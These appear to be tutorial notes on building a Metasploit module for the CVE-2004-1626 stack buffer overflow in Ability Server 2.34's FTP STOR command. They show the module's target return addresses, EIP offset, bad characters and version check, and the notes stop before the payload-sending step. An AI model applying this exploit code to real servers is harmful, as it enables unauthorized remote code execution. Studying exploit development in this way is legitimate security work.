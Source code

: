 # Exploit module

## Remote Exploit 

### FTP exploit 

#### What we want? 
- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Set the bad characters
- Check if the remote host hast has the vulnerable version 
- Take the EIP Offset of each target 
- Send the exploit



- Include metasploit FTP suitable module for exploitation
- Take Username and password if required 
- Since the EIP Offset could vary between Window versions, will take target list
- Set the bad characters

```ruby

include Msf::Exploit::Remote::Ftp


def initialize(info = {})
super(update_info(info,
  'Name'           => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
  'Description'    => %q{
    This module exploits a stack-based buffer overflow in Ability Server 2.34.
    Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
    which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

    The vulnerability has been confirmed on version 2.34 and has also been reported
    in version 2.25 and 2.32. Other versions may also be affected.
  },
  'Author'         =>
    [
      'muts',           #Initial discovery
      'Dark Eagle',     #same as muts
      'Peter Osterberg' #Metasploit
    ],
  'License'        => MSF_LICENSE,
  'References'     =>
    [
      [ 'CVE', '2004-1626' ],
      [ 'OSVDB', '11030'],
      [ 'EDB', '588'],
    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process'
    },
  'Privileged'     => false,
  'Payload'        =>
    {
      'Space'    => 1000,
      'BadChars' => "\x00\xff"
    },
  'Platform'       => 'win',
  'Targets'        =>
    [
      [
        'Windows XP SP2 ENG',
        {
          #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
          'Ret' => 0x73E32ECF,
          'Offset' => 966
        }
      ],
      [
        'Windows XP SP3 ENG',
        {
          #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully pathced)
          'Ret' => 0x7E429353,
          'Offset' => 966
        }
      ],
    ],
  'DisclosureDate' => 'Oct 22 2004'
  ))

register_options(
  [
    Opt::RPORT(21),
    OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
    OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
  ], self.class)
end
```


- Check if the remote host hast has the vulnerable version 

```ruby
  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end
```

- 




